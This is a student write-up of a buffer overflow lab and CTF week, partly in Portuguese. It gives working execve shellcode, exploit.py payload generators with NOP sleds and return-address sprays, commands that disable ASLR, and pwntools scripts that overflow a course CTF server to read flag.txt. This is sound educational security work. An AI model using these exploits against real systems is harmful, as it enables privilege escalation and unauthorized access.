







# Trabalho Realizado Na Semana #5

## Task 1: Getting Familiar with Shellcode
Executing the provided code allowed us to obtain a root shell in both 32-bit and 64-bit environments. This was achieved by copying shellcode to the stack and invoking it through the func() function. To facilitate this, we disabled address randomization and made the system's shell conducive to Set-UID program attacks. This process demonstrates how specific configurations and shellcode manipulation can grant access to a root shell, effectively bypassing security measures.

## Task 2: Understanding the Vulnerable Program
In preparation for task 3, we examined a program with a buffer-overflow vulnerability. It attempts to copy an array of characters, which can be up to 517 bytes, into a buffer with a maximum size of 100 bytes. As the strcpy function doesn't check the buffer limits, it results in a buffer overflow.

To make the program vulnerable, we disabled StackGuard and protections against code execution invoked from the stack. Additionally, we changed the program's owner to root and activated the Set-UID bit. This process involved compiling the program with specific flags, such as disabling StackGuard, and setting it as Set-UID. We also confirmed the permissions to ensure that the Set-UID bit was correctly set. This groundwork was essential for task 3, which required a specific configuration to the attack have success.

## Task 3: Launching Attack on 32-bit Program (Level 1)
First ran the debug version of the program to understand the locations of each variable in the Stack. We used a break point in the function where the overflow is possible to analyze the addresses at that point in the program execution. We proceded


```
$ touch badfile
$ gdb stack-L1-dbg
gdb-peda$ b bof
gdb-peda$ run
gdb-peda$ next
gdb-peda$ p $ebp
gdb-peda$ p &buffer

```
Next, we modified the variables in the Python script. This script is responsible for generating the content that will be written into the target buffer, causing a buffer overflow. We adjusted the offset to 112, which represents the gap between the buffer's beginning and the target return address that we intend to overwrite. We updated the 'ret' value to point to the specific address where we want the program to redirect its execution. The 'ret' value is the data that will replace the memory address specified by the offset. Finally, we synchronized the 'start' value with the location of the shellcode within the buffer, aligning it with the point where the program is expected to jump to.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 350              
content[start:start + len(shellcode)] = shellcode

# Decide the return address value
and put it somewhere in the payload
ret    = 0xffffcb48 + 250         
offset = 112              

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

##### After executing the exploit.py shown above we gained access to the shell, as shown in the print below.


## Task 4: Launching Attack without Knowing Buffer Size (Level 2)
First we disabled two major counters against buffer overflow using the following lines in the shell.
```
$ sudo sysctl -w kernel.randomize_va_space=0
$ sudo ln -sf /bin/zsh /bin/sh
```

Then we run almost the same code that we ran in the last task.
```
$ touch badfile
$ make
$ gdb stack-L2-dbg
  b bof
  run
  next
  p &buffer // $1 = (char (*)[160]) 0xffffca60
  quit
```



The comments in the following exploit.py code explain how we thought the attack. Pay attention to them.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"  
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
#start = 0
content[517 - len(shellcode):] = shellcode # put the shell code at the end of badfile

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffca60 + 300     
#offset = 0            

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address

#Spray the buffer with return address
for offset in range(50):
    content[offset*L:offset*4 + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```    


With that modified exploit we got the following result, showing that we haven't jump high enough, so we need to change the exploit.py. So now we changed the ret value from 0xffffca60 + 300, to 0xffffca60 + 400 and tried again. And just like that we got access to the root shell as shown in the print below, concluding the attack with success. 



# CTF Semana #5 (Buffer Overflow)

## Desafio 1
Inicialmente, procedemos à análise dos arquivos fornecidos, que coincidem com os que vão ser executados no servidor na porta 4003.

Ao utilizar o comando checksec, foi possível constatar que o programa program possui arquitetura x86, não apresenta aleatorização de código e carece de proteções relacionadas ao endereço de retorno.

Posteriormente, aprofundamos a compreensão do funcionamento do código main.c, identificando que este reserva 8 bytes de memória para o nome do arquivo meme_file e 32 bytes para a resposta do usuário, armazenada no buffer.

Observamos ainda que a função scanf possibilita a cópia de, no máximo, 40 bytes oriundos do stdin para o buffer previamente declarado. Isso implica que, em cenários em que a entrada ultrapassa 32 bytes, há o potencial de ocorrer overflow do buffer.

```c
char meme_file[8] = "mem.txt\0";
char buffer[32];
scanf("%40s", &buffer);
```

Agora, com estas informações, modificando e executando o script fornecido exploit-example.py para escrever 40 bytes, sendo os últimos 8 bytes "flag.txt".

O código do exploit-example.py passaria então a ser o seguinte:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt") # 32 a's
r.interactive()
```



Ao correr o script de python apresentado acima obtemos este resultado, obtendo a flag e concluindo o desafio 1.

## Desafio 2

Tal como no desafio 1, ao utilizar o comando checksec, foi possível constatar que o programa program possui arquitetura x86, não apresenta aleatorização de código e carece de proteções relacionadas ao endereço de retorno.

De seguida analisamos o código de main.c. Existe alocação de 9 bytes de memória para o nome do ficheiro meme_file, 4 bytes para um valor val e 32 bytes para o buffer.

```c
char meme_file[9] = "mem.txt\0\0";
char val[4] = "\xef\xbe\xad\xde";
char buffer[32];
scanf("%45s", &buffer);
```

Após tentarmos correr código parecido ao desafio 1 para o desafio 2, e verificamos que o resultado obtido através do script não era o pretendido. Deste modo, fomos avaliar um pouco melhor o código do ficheiro main.c e deparamo-nos com as seguintes linhas de código que nos levaram à conclusão que tinhamos de alterar o valor do val na linha do r.sendline do script de python.

```c
 if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
```

Com isto decidimos que na linha do r.sendline teriamos de aplicar o valor 0xfefc2324 de forma inversa, pois a stack cresce na ordem inversa. Deste modo, chegamos ao seguinte script de python.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\x24\x23\xfc\xfeflag.txt") # 32 a's + valor fefc2324 invertido
r.interactive()
```



Ao correr o script de python apresentado acima obtemos este resultado, obtendo a flag e concluindo o desafio 2.
